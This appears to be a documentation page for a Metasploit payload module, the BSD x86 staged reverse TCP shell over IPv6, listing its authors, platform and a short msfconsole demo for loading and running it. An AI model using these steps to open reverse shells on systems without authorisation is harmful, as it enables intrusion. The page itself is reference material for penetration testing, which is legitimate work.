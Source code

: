 ## BSD Command Shell, Reverse TCP Stager (IPv6)

Spawn a command shell (staged). Connect back to the attacker 
over IPv6


## Module Name
payload/bsd/x86/shell/reverse_ipv6_tcp

## Authors
* skape
* vlad902
* hdm





## Platforms
* bsd

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/bsd/x86/shell/reverse_ipv6_tcp
msf payload(reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(reverse_ipv6_tcp) > run
```
    
    